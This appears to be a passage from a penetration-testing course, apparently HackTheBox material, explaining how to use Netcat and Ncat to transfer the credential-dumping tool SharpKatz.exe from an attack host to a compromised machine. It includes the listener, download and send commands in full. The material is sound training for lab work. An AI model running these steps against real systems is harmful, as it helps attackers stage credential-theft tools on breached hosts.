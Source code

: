The original Netcat was [released](http://seclists.org/bugtraq/1995/Oct/0028.html) by Hobbit in 1995, but it hasn't been maintained despite its popularity. The flexibility and usefulness of this tool prompted the Nmap Project to produce [Ncat](https://nmap.org/ncat/), a modern reimplementation that supports SSL, IPv6, SOCKS and HTTP proxies, connection brokering, and more.

In this section, we will use both the original Netcat and Ncat.

**Note:** **Ncat** is used in HackTheBox's PwnBox as nc, ncat, and netcat.

## **File Transfer with Netcat and Ncat**

The target or attacking machine can be used to initiate the connection, which is helpful if a firewall prevents access to the target. Let's create an example and transfer a tool to our target.

In this example, we'll transfer [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) from our Pwnbox onto the compromised machine. We'll do it using two methods. Let's work through the first one.

We'll first start Netcat (`nc`) on the compromised machine, listening with option `-l`, selecting the port to listen with the option `-p 8000`, and redirect the [stdout](https://en.wikipedia.org/wiki/Standard_streams#Standard_input_(stdin)) using a single greater-than `>` followed by the filename, `SharpKatz.exe`.

### **NetCat - Compromised Machine - Listening on Port 8000**

```
victim@target:~$ # Example using Original Netcatvictim@target:~$ nc -l -p 8000 > SharpKatz.exe
```

If the compromised machine is using Ncat, we'll need to specify `--recv-only` to close the connection once the file transfer is finished.

### **Ncat - Compromised Machine - Listening on Port 8000**

```
victim@target:~$ # Example using Ncat
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

From our attack host, we'll connect to the compromised machine on port 8000 using Netcat and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) as input to Netcat. The option `-q 0` will tell Netcat to close the connection once it finishes. That way, we'll know when the file transfer was completed.

### **Netcat - Attack Host - Sending File to Compromised machine**

```
th1nyunb0y@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
th1nyunb0y@htb[/htb]$ # Example using Original Netcat
th1nyunb0y@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

By utilizing Ncat on our attacking host, we can opt for `--send-only` rather than `-q`. The `--send-only` flag, when used in both connect and listen modes, prompts Ncat to terminate once its input is exhausted. Typically, Ncat would continue running until the network connection is closed, as the remote side may transmit additional data. However, with `--send-only`, there is no need to anticipate further incoming information.
